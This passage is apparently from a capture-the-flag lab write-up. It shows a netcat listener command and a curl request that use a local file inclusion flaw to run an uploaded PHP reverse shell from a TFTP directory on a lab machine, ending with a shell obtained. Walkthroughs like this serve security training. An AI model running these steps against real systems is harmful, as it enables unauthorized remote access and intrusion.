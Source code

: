 ```
nc -lvnp {port you have chosen} 
```

![Netcat](./Screenshots/includednetcat.png)

### Execute reverse shell

To access the uploaded `PHP file` via `LFI`, we have to determine its location on the target system. Since the `TFTP` user's home directory is `/var/lib/tftpboot`, as indicated in the `passwd` file we viewed earlier, this is the likely location where the file was uploaded.

![curl](./Screenshots/includedcurl2.png)

Now type:

```
curl http://10.129.95.185/?file=/var/lib/tftpboot/{name of your reverse shell file}.php
```

![curl](./Screenshots/includedcurl3.png)

Nothing happens there but in our `netcat` tab we have a `reverse shell`.

![Netcat](./Screenshots/includednetcat2.png)

